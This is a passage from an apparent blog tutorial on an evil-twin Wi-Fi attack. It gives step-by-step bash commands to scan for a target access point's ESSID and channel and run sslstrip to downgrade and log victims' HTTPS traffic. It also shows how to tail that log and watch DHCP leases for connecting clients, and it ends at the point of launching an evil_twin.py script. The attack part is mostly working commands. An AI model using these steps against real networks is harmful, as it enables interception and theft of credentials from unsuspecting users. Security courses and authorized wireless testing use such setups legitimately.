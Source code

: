 Once we've set up our gateway interface, we need to obtain the ESSID and channel of the access point we are currently attacking. We can do this by running the following commands and analyzing the output.

{% highlight bash %}
# make sure our upstream interface is in managed mode
ifconfig <upstream interface> down
iwconfig <upstream interface> mode managed
ifconfig <upstream interface> up

# scan with iwlist and pipe results into less
iwlist <upstream interface> scan | less
{% endhighlight %}


We then want to open up a new terminal and run our installation of sslstrip by using

{% highlight bash %}
	sslstrip -l 10000 -a -w <path to output file>
{% endhighlight %}

The output of the command should look something like this.

![Launching sslstrip]({{ site.baseurl }}images/sslstrip-launch.png)

We then want to open another terminal and use the tail command to display the output of
sslstrip from its output file in real time.

![sslstrip log]({{ site.baseurl }}images/sslstrip-log.png)

The syntax for doing this is as follows:

{% highlight bash %}
	tail -f <path to sslstript output file from previous step>
{% endhighlight %}


Finally, we need a way of knowing when client devices connect to our access point.

![dnsmasq log]({{ site.baseurl }}images/dnsmasq-log.png)

We can do this by watching dhcp leases using the following technique.

{% highlight bash %}
tail -f /var/log/dnsmasq.log | grep dnsmasq-dhcp
{% endhighlight %}

## Launching the attack

To launch our attack, we simply run our evil_twin.py script as shown below.

![Launching the AP]({{ site.baseurl }}images/launch-ap.png)
